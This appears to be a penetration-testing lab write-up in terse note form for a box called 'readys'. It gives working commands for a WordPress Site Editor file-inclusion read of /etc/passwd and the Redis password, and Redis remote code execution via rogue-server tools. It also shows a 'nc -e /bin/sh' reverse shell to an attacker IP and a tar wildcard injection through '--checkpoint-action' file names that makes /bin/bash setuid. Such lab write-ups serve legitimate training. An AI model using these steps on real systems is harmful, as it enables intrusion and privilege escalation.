

______

> [!info]
> IP=192.168.188.166

# 6379 - redis

NOAUTH Authentication required.

# 80 - wordpress

Plugin(s) Identified:

[+] site-editor
 | Location: http://192.168.188.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)


## WordPress Plugin Site Editor 1.1.1 - Local File Inclusion

https://www.exploit-db.com/exploits/44340

```bash
http://192.168.188.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

alice

/etc/redis/redis.conf

requirepass Ready4Redis?


# 6379 - redis

https://github.com/n0b0dyCN/redis-rogue-server
no pass option

```bash
redis-cli -h $IP
AUTH Ready4Redis?
```

https://github.com/Ridter/redis-rce

```bash
python3 redis-rce.py -r $IP -p 6379 -L 192.168.45.231 -f redis-rogue-server/exp.so -a "Ready4Redis?"
```


# PrivEsc




revshell to http://192.168.188.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/run/redis/test.php


```bash
cat /etc/crontab
*/3 * * * * root /usr/local/bin/backup.sh
```

```bash
#!/bin/bash
cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
```


gtfo bins tar

```bash
cd /var/www/html
echo '#!/bin/bash' > shell.sh
echo "nc -e /bin/sh 192.168.45.231 443" >> shell.sh
touch ./"--checkpoint=1"  
touch ./"--checkpoint=1-action=exec=bash shell.sh"
```


```bash
alice@readys:/var/www/html$ echo "" > '--checkpoint=1'
alice@readys:/var/www/html$ echo "" > '--checkpoint-action=exec=sh payload.sh'
alice@readys:/var/www/html$ nano payload.sh 
alice@readys:/var/www/html$ chmod +x payload.sh 
alice@readys:/var/www/html$ cat payload.sh 
chmod 4777 /bin/bash
```
